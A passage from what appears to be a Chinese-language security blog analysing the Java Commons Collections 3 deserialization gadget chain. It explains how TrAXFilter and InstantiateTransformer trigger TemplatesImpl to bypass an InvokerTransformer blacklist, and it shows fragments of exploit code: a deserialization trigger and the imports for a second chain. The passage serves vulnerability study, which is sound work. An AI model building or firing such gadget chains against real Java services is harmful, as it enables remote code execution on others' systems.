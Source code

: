 ```java
        // System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

运行即可

![image-20220718155013056](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220718155013056.png)

## 调试分析

为什么需要CC3，主要是绕过黑名单避免我们使⽤ `InvokerTransformer`⼿⼯调⽤ `newTransformer() `⽅法。

### TrAXFilter

在 SAX API 中提供了一个过滤器接口 `org.xml.sax.XMLFilter`，XMLFilterImpl 是对它的缺省实现，使用过滤器进行应用程序开发时，只要继承 XMLFilterImpl，就可以方便的实现自己的功能。

`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter` 是对 XMLFilterImpl 的实现，在其基础上扩展了 Templates/TransformerImpl/TransformerHandlerImpl 属性，

TrAXFilter 在实例化时接收 Templates 对象，并调用其 newTransformer 方法，这就可以触发我们的 TemplatesImpl 的攻击 payload 。

![image-20220718160242933](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220718160242933.png)

### InstantiateTransformer

Commons Collections 提供了 InstantiateTransformer 用来通过反射创建类的实例，可以看到 `transform()` 方法实际上接收一个 Class 类型的对象，通过 `getConstructor` 获取构造方法，并通过 `newInstance` 创建类实例。

![image-20220718160958662](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220718160958662.png)

如果我们把input设置为TrAXFilter，那么就会在这里实例化的时候调用其构造方法，触发`TemplatesImpl#newTransformer`。

之后就和cc1的TransformedMap链一样的触发方式了，这里不做过多分析。



### 利用链2

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
```